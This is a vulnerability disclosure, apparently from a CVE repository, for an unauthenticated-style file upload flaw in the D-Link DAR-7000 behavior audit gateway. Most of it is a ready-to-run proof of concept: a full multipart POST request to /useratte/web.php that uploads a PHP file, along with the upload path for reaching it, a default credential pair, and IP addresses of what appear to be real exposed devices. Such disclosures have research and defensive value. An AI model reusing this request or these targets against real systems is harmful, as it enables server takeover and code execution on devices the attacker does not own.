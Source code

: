 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/useratte/web.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /useratte/web.php? HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=eb22543a6a7b4ffd10816d515b505f7f
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 598
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328—

```

<img width="722" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/113e6d1e-2e94-46c2-9586-f53cd02722fc">


https://59.60.19.174:8443/upload/2.php

<img width="722" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/ccd9228c-b415-483c-93eb-f20b1bf83a73">

